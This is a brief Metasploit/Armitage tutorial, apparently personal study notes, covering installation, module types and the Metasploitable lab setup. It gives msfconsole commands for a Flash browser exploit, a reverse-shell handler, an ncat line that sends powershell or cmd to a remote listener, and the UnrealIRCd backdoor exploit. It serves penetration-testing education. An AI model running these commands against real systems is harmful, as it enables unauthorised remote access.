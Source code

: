 <h5><em>Update: Aug-2022</em></h5>

<h2> Metasploit (cc. Armitage)</h2>

-   The most popular exploitation framework in the industry

<h3> Metasploit Project Intro.</h3>

<i>Refer to -> https://www.metasploit.com/</i>

<i>Tutorial: https://www.offensive-security.com/metasploit-unleashed/introduction/</i>

<h4> Installation</h4>

-   msf: CLI based Metasploit framework (Kali Linux default program)
-   Armitage: Java-based GUI front-end for the Metasploit framework

    ```sh
    # metasploit (mfsconsole): Kali Linux default
    # Armitage: need install
    sudo apt install armitage

    ```

<h4> Modules</h4>

1. Exploits: modules that use payloads
2. Auxiliary: port scanners, fuzzers, sniffers, and more
3. Payloads: code that runs remotely
4. Encoders: Ensure that payloads make it to their destination intact
5. Nops: Keep the payload sizes consistent across exploit attempts
   <br/>

<h4> Lab Environment: Metasploitable</h4>

[Metasploitable 2 Exploitability Guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)

[Metasploitable 2 from SourceForge](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)

<h6><font color="red"> *** Never expose Metasploitable to an untrusted network, use NAT or Host-only mode ! ***</font></h6>
   <br/>

<h4> <font color="blue">msf</font> CLI</h4>

```sh
service postgresql start
msfdb init
msfconsole
banner
help

show exploits
show options
show payloads
show targets
show info

# use "module-name-you-want-to-use"
use exploit/windows/browser/adobe_flash_avm2
show options
set SRVPORT 80
set SRVHOST 192.168.0.1
exploit
back
exit


# search specific exploits matching keywords
search type:exploit platform:windows flash
search mysql

# Example-1: reverse shell connection to a Windows machine
use exploit/multi/handler
show options
set PAYLOAD generic/shell_reverse_tcp
set LHOST xx.xx.xx.xx
set LPORT pppp
show options
exploit

# if the target is a Windows machine
>> ncat -nv xx.xx.xx.xx pppp -e powershell or cmd

# Example-2: vulerable IRC server (need to be pre-identified)
use exploit/unix/irc/unreal_ircd_3182_backdoor
show payloads
set PAYLOAD payload/cmd/unix/reverse
show options
set LHOST xx.xx.xx.xx
set RHOST xx.xx.xx.xx
show options
exploit

```
